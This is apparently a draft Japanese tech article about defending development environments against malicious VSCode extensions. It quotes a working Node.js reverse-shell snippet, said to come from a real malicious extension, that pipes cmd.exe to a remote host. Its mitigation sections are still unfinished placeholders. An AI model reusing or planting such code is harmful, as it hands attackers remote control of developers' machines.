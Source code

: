 ```yaml
---
title: "悪意のあるVSCodeの拡張機能から開発環境を守る防衛術"
emoji: "👟"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: [vscode]
published: false
---
```

VSCodeの拡張機能は、子プロセスを展開したりシステムコールを実行したり任意のNode.jsパッケージをインポートしたりすることができる。

たとえば以下のようなコードで子プロセスを簡単に起動できる。
```typescript

import { exec } from "node:child_process";
exec(`${任意のコマンド}`)
```

実際にあった例として、以下のように攻撃者のリモートホストに接続してリバースシェルを提供させるコードが見つかったりしている
```typescript
let net = require("net");
let shell = exec("cmd.exe");
var client_sock = new net.Socket();
client_sock.connect(9090, "192.168.71.132", () => {
    client_sock.pipe(shell.stdin);
    shell.stdout.pipe(client_sock);
    shell.stderr.pipe(client_sock);
});
```

実際に、人気拡張機能を装った偽拡張機能を作った[実験を行ったところ数多くの有名どころを含む企業でダウンロードされたことが報告されている](https://gigazine.net/news/20240611-visual-studio-code-extension-risk/)。

## 主なリスク
- 見られたくない情報が流出してしまう(ディレクトリトラバーサル)
- 端末に任意の処理を実行させられてしまう(スクリプトインジェクション)

## 対策
### remote development(SSH)を使ったローカル環境分離
T.B.D
https://code.visualstudio.com/docs/remote/remote-overview

### devcontainerを使用したファイルシステムとネットワークの両方のサンドボックス化
T.B.D
https://github.com/microsoft/vscode/issues/52116#issuecomment-2028487842

## 参考
- https://zenn.dev/nagashima/articles/7dbee49bbea420
- https://github.com/microsoft/vscode/issues/52116
- https://gigazine.net/news/20240611-visual-studio-code-extension-risk/
